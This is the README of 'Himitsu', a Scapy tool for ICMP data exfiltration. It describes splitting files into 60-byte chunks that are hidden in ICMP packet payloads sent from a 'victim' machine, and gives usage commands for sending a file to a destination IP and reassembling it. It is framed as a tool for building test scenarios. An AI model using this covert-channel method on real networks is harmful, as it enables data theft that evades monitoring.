 # Himitsu | ICMP Data Exfiltration

![](https://raw.githubusercontent.com/NaotaClone/Himitsu/main/Himitsu.png)


Himitsu is a tool created with Scapy whose purpose is to facilitate the generation of test scenarios for the exfiltration of data between stations using the ICMP network protocol. This tool is responsible for dividing files of any type into 60-byte blocks, which are inserted into the data field of the ICMP packets using the script "Segmentador.py" (from the victim's perspective). This allows you to send images, binaries, dictionaries, or other information relevant to testing. On the other hand, on the machine receiving the information, the ICMP packets are received and subsequently assembled using the script "Assembler.py", which allows the final file to be reconstructed by extracting the strings received in the data field.

```bash
  It should be noted that this tool's operation may vary depending on the version of Windows you are on. During the tests, the machines had Wireshark installed inside the stations.
```

## Instructions

## Library deployment
```bash
  python -m pip install -r requirements.txt
```
### HT-Segment.py - File Segmenter .
```bash
  python HT-Segment.py <File Name> <Destination Ip Address>
```
### HT-Assembler.py - File Assembler.
```bash
  python HT-Assembler.py <File Name to Assembled>
```
